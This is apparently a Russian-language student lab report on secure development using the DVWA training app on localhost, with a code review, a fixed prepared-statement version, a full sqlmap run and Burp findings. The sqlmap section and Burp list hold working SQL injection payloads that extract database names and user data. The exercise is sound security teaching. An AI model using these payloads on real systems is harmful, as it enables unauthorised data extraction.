

# Практика 4. Разработка безопасного программного обеспечения

**Использование статического анализатора кода для обеспечения безопасности**

**Задача**

### 1. Необходимо найти участок кода, содержащий инъекцию SQL кода в задании Blind Sql Injection на сайте dvwa.local с использованием статического анализатора кода

В папке sqli_blind создала файл sonar-project.properties c содержимым:



Запустула анализа с помощью sonar-scanner

#### Результат


### 2. Проанализировать код и сделать кодревью, указав слабые места

Применение глобальных переменных, таких как $GLOBALS["___mysqli_ston"], не является хорошей практикой, так как это делает код трудным для отладки и поддержания. Лучше использовать объектно-ориентированный подход с MySQLi или PDO для работы с базой данных. 

    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid ); // Removed 'or die' to suppress mysql errors

Код уязвим к SQL-инъекциям, так как значение $id напрямую вставляется в запрос. Необходимо использовать подготовленные выражения или экранировать входные данные. 

    $getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";

Не проверяется, существует ли ключ 'id' в массиве $_GET. Следует проверить, что он существует и что его значение является числом перед использованием

    $id = $_GET\[ 'id' \];


### 3. Разработать свою систему вывода информации об объекте на любом языке, исключающий взможность инъекции SQL кода. Возможно исправление участка кода из dvwa.local *Требования к системе авторизации*
   - Система вывода информации об объекте должна использовать запросы GET с параметрами, аналогичными из задания Blind SQL injection dvwa

Cистема представленат в файле [index.php](index.php)

**Саммари по системе:**

- Подготовленные выражения предотвращают SQL-инъекции, так как данные, передаваемые в запрос, не вставляются напрямую в строку SQL.
- Проверка параметров GET предотвращает использование некорректных или пустых значений.
- Код не использует подавление ошибок (например, @mysqli_error()), что позволяет явно обрабатывать ошибки и исключения.


### 4. Использовать sqlmap для нахождения уязвимости в веб-ресурсе


```bash
D:\tools\sqlmap>sqlmap -u "http://127.0.0.1/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="PHPSESSID=usbpb1ans2uosssjrk499a3pl2; security=low" --batch --risk=3 --level=5
___
__H__
___ ___["]_____ ___ ___  {1.8.12#pip}
|_ -| . [(]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
|_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 10:28:59 /2024-12-07/

[10:28:59] [INFO] testing connection to the target URL
[10:28:59] [INFO] checking if the target is protected by some kind of WAF/IPS
[10:28:59] [INFO] testing if the target URL content is stable
[10:28:59] [INFO] target URL content is stable
[10:28:59] [INFO] testing if GET parameter 'id' is dynamic
[10:28:59] [WARNING] GET parameter 'id' does not appear to be dynamic
[10:29:00] [WARNING] heuristic (basic) test shows that GET parameter 'id' might not be injectable
[10:29:00] [INFO] testing for SQL injection on GET parameter 'id'
[10:29:00] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[10:29:01] [INFO] GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --code=200)
[10:29:02] [INFO] heuristic (extended) test shows that the back-end DBMS could be 'MySQL'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
[10:29:02] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[10:29:03] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[10:29:03] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[10:29:03] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[10:29:03] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[10:29:03] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[10:29:03] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[10:29:03] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[10:29:03] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[10:29:03] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[10:29:03] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[10:29:03] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[10:29:03] [INFO] testing 'Generic inline queries'
[10:29:04] [INFO] testing 'MySQL inline queries'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[10:29:04] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[10:29:04] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[10:29:04] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[10:29:14] [INFO] GET parameter 'id' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable
[10:29:14] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[10:29:14] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[10:29:14] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[10:29:14] [INFO] target URL appears to have 2 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] N
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[10:29:15] [WARNING] if UNION based SQL injection is not detected, please consider forcing the back-end DBMS (e.g. '--dbms=mysql')
[10:29:16] [INFO] target URL appears to be UNION injectable with 2 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] Y
[10:29:17] [INFO] testing 'Generic UNION query (89) - 21 to 40 columns'
[10:29:18] [INFO] testing 'Generic UNION query (89) - 41 to 60 columns'
[10:29:19] [INFO] testing 'Generic UNION query (89) - 61 to 80 columns'
[10:29:20] [INFO] testing 'Generic UNION query (89) - 81 to 100 columns'
[10:29:21] [INFO] testing 'MySQL UNION query (89) - 1 to 20 columns'
[10:29:22] [INFO] testing 'MySQL UNION query (89) - 21 to 40 columns'
[10:29:23] [INFO] testing 'MySQL UNION query (89) - 41 to 60 columns'
[10:29:24] [INFO] testing 'MySQL UNION query (89) - 61 to 80 columns'
[10:29:25] [INFO] testing 'MySQL UNION query (89) - 81 to 100 columns'
[10:29:26] [INFO] checking if the injection point on GET parameter 'id' is a false positive
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 362 HTTP(s) requests:
---
Parameter: id (GET)
Type: boolean-based blind
Title: AND boolean-based blind - WHERE or HAVING clause
Payload: id=1' AND 4368=4368-- VbzU&Submit=Submit

Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: id=1' AND (SELECT 1725 FROM (SELECT(SLEEP(5)))OGHr)-- Fkif&Submit=Submit
---
[10:29:27] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 9 (stretch)
web application technology: Apache 2.4.25
back-end DBMS: MySQL >= 5.0.12 (MariaDB fork)
[10:29:27] [WARNING] HTTP error codes detected during run:
404 (Not Found) - 272 times
[10:29:27] [INFO] fetched data logged to text files under 'C:\Users\balzh\AppData\Local\sqlmap\output\127.0.0.1'

[*] ending @ 10:29:27 /2024-12-07/
```

### 5. Использовать Burp для нахождения уязвимости в веб-ресурсе


На практике в DVWA с использованием Burp Suite обнаружены несколько уязвимостей. 

- Первая — это Boolean-based SQL Injection. Например, запрос `id=1' AND 1=1 --` возвращает корректный ответ со статусом `200`, что подтверждает выполнение условия, а запрос `id=1' AND 1=2 --` также возвращает статус `200`, но с другой длиной ответа, что говорит о возможности влиять на выполнение SQL-запроса. 
- Вторая уязвимость — Union-based SQL Injection. При использовании запроса `id=1' UNION SELECT NULL,NULL --` сервер возвращает валидный ответ, что указывает на возможность объединения с другими данными. Также запрос `id=1' UNION SELECT first_name, last_name FROM users --` подтверждает, что можно извлечь данные из таблицы `users`. 
- Третья уязвимость — Blind SQL Injection, которая позволяет проводить анализ структуры базы данных. Например, при использовании подзапроса `id=1' AND SUBSTRING((SELECT database()),1,1)='d' --` сервер возвращает успешный ответ, что позволяет по символам узнать имя базы данных. 

Эти уязвимости дают злоумышленнику возможность извлекать данные, изменять запросы и получать информацию о структуре базы. Для защиты необходимо применять параметризованные запросы, использовать ORM-библиотеки, проводить валидацию пользовательского ввода и ограничивать права доступа к базе данных.